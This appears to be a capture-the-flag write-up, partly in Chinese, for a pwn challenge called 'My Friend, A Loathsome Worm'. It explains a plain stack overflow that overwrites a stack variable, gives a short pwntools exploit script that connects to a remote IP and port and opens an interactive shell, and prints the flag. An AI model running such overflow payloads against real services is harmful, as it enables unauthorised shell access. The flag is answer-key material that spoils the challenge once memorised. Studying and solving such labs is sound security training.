


# My Friend, A Loathsome Worm

> pwn

## 题目描述

This one should be quite straight forward. Can you trick this program into popping a shell without even bothering to overwrite the return address? Why pick the lock when you can simply remove the hinges. :)

Download exploit1.bin

The binary is running at 34.123.210.162 port 20232

## 解题思路

- 普通栈溢出，通过溢出字符串覆盖栈上的变量影响后续判断。





## exp

```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
r = remote('34.123.210.162', 20232)
r.recvuntil(b'Choice: ')
r.sendline(b'1')
r.recvuntil(b'Enter new username: ')
r.sendline(b'A'*28+p64(1337))
r.recvuntil(b'Choice: ')
r.sendline(b'3')
r.interactive()
```

## flag

```
poctf{uwsp_5w337_c10v32_4nd_50f7_511k}
```